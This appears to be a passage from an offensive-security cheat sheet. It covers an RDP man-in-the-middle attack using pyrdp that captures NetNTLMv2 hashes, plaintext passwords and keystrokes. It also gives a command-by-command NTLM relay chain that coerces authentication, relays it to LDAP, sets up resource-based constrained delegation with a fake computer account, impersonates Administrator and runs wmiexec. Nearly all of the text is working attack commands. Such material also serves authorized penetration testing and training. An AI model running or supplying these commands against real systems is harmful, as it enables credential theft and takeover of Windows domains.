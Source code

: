 * [GoSecure/pyrdp](https://github.com/GoSecure/pyrdp)
* [RDP Man-in-the-Middle – Smile! You’re on Camera](https://www.gosecure.net/blog/2018/12/19/rdp-man-in-the-middle-smile-youre-on-camera)

**Usage**

```sh
pyrdp-mitm.py <IP>
pyrdp-mitp.py <IP>:<PORT> # with custom port
pyrdp-mitm.py <IP> -k private_key.pem -c certificate.pem # with custom key and certificate
```

**Exploitation**

* If Network Level Authentication (NLA) is enabled, you will obtain the client's NetNTLMv2 challenge
* If NLA is disabled, you will obtain the password in plaintext
* Other features are available such as keystroke recording

**Alternatives**

* [SySS-Research/Seth](https://github.com/SySS-Research/Seth), performs ARP spoofing prior to launching the RDP listener

## Relay IIS AppPool to Local Administrator

* HTTP coerce from the targeted machine

    ```ps1
    powershell iwr http://10.10.10.2 -UseDefaultCredentials 
    ```

* Relay to LDAP

    ```ps1
    ntlmrelayx -t ldap://10.10.10.1 -smb2support --interactive
    ```

* Connect to the interactive LDAP shell via TCP

    ```ps1
    nc 127.0.0.1 <PORT>
    ```

* Enable TLS and setup RBCD

    ```ps1
    start_tls
    add_computer fakePC P@ssword123
    set_rbcd TARGET$ fakePC$
    ```

* Impersonate the administrator

    ```ps1
    getST.py -spn 'cifs/target.lab.local' -impersonate Administrator -dc-ip 'dc.lab.local' 'lab.local/fakePC$:P@ssword123'
    export KRB5CCNAME=/tmp/Administrator@cifs_target.lab.local@LAB.LOCAL.ccache
    wmiexec.py -k -no-pass @target.lab.local
    ```
